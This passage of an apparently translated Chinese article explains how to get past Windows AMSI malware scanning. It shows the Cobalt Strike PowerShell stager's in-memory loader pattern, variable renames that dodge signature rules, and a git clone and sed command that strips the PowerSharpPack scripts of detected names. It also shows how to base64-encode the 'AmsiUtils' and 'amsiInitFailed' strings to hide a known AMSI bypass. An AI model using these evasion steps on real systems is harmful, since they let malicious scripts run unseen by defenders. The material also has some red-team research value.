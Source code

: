 像这样的触发器还有很多。例如，[cobalt strike Powershell stager](https://offensivedefence.co.uk/posts/making-amsi-jump/) 包含一个类似于 regex 的触发器，它看起来像这样。

```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]AA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();


```

然而，有一个简单的绕过技巧，直接使用 `$a` 代替 `$s` 作为变量名，或者在中间使用一个新行。

```
$a=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI[...snip...]AA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($a,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();


```

我的 [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) 脚本也被类似的 `regex` 标记了，该正则表达式标记了每个脚本的两行：

```
$base64binary="TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQ"
 $RAS = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64binary))


```

但绕过这样的触发规则其实真的很容易。你可以使用下面的命令将脚本中的 `$base64binary` 变量值改为`$encodedbinary` 。

```
git clone https://github.com/S3cur3Th1sSh1t/PowerSharpPack.git
cd PowerSharpPack
find ./ -type f -print0 | xargs -0 sed -i "s/\$base64binary/\$encodedbinary/g"


```

该脚本更改之后应该不会再触发 AMSI 检测规则，但这仅限于脚本本身内容。如果 Base64 编码中的二进制有一些字符串触发规则，这还需要对该二进制进行修改。

我们来看看 2016 年的 Bypass 技巧。我们发现 `amsiInitFailed` 和 `AmsiUtils` 这两个字符串是会触发检测规则。而如果这两个字符串串连起来的话，也会触发检测规则。在这种情况下，我们不能只更改字符串，因为如果这样做了之后，该 Bypass 本身就不起作用了。我们其实还有其他的一些选择。

我们可以用任何你能想到的编码方式对它们进行编码。Base64（任何其他 Base 编码）、HTML、ASCII 或 ROT13 等更多的编码方式，这些都是无限的可能。显然，我们唯一要做的就是在运行时对编码进行解码，进而得到这两个字符串，这样该 Bypass 技巧才起到作用。在 powershell 中，Base64 的编码 / 解码可以这样做：

```
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("AmsiUtils"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("amsiInitFailed"))


```

为了在运行时得到正确的结果，我们可以使用：

```
$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('VALUE')))


```
